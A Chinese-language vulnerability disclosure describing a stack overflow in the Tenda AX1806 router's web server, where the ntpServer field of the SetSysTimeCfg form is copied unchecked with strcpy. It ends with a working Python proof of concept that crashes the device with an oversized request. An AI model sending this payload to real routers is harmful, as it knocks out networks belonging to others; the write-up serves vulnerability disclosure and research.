

# 漏洞描述

设备：Tenda-AX1806 v1.0.0.1 https://www.tenda.com.cn/download/detail-3306.html

漏洞类型：栈溢出

攻击效果：拒绝服务

# 漏洞成因

该漏洞发生于tdhttpd文件的fromSetSysTime函数中，goform/SetSysTimeCfg页面



v4来源于http数据包中的ntpServer参数，但是，在对该参数进行处理时，缺乏安全性的考虑，直接调用strcpy将该值拷贝到栈上的&v33[16]，由此造成了栈溢出

攻击者可以利用这一点使得tdhttpd程序崩溃，从而实现拒绝服务攻击

# POC

拒绝服务的poc：

```python
import requests

url = "https://192.168.2.1/goform/SetSysTimeCfg"

ntpserver = b"a"*0x10000
timeType = "sync"
r = requests.post(url, data={"timeType" : timeType ,"ntpServer" : ntpserver},verify=False)
print(r.content)
```

